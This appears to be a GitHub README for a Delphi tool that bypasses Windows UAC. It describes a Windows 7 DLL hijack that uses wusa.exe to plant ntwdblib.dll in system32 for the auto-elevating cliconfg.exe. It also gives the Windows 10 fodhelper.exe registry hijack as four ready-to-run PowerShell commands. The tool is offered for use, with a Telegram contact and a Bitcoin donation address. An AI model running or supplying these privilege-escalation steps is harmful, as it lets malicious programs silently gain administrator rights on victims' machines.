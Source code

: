 <h1 align="center">Bypass-UAC Rad Studio XE7</h1>

Windows 7
Both Dlls (under 64 bits and 32 bits) will be packed into a .cab archive by a command from cmd with administrator rights
(Example: makecab "C:\dll\Win64\ntwdblib.dll" "C:\ntwdblib64.cab")
ntwdblib32.cab and ntwdblib64.cab are already written in the code as an array of strings, in the execonsole project
to translate the ntwdblib32.cab file into an array of strings, you can use the code from the conststring project
We use the process vulnerability from the white list "%systemroot%\system32\cliconfg.exe"
Programmatically, using the update installer "%systemroot%\system32\wusa.exe" (it is also in the windows white list)
(Example: wusa "%temp%\ntwdblib.cab" /quiet /extract:%systemroot%\system32\)
do unpacking ntwdblib64.cab or ntwdblib32.cab depending on bitness
to the directory "%systemroot%\system32\ntwdblib.dll"
We start the process "%systemroot%\system32\cliconfg.exe" with user rights, but considering that it is in the windows white list
it executes itself with administrator privileges and loads our dll library "%systemroot%\system32\ntwdblib.dll"
in connection with which it inherits administrator rights and is able to execute any PE file bypassing the UAC window.

Windows 10
We use the vulnerability of the process from the white list "fodhelper.exe"
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "путь до нашего файла" -Force
powershell New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
powershell Start-Process "fodhelper.exe"
powershell Remove-Item "HKCU:\Software\Classes\ms-settings\shell\open\command" -Recurse -Force

-------
### Video
[![video](https://i.postimg.cc/rw9fmbs8/maxresdefault.jpg)](https://youtu.be/VKTAxeYmjFI)

-------

### Support
Telegram: @Official_Mr_Robot

BTC: 1PoieWSbe1A7o2nAuXE37ncQHnGqxcdhJc

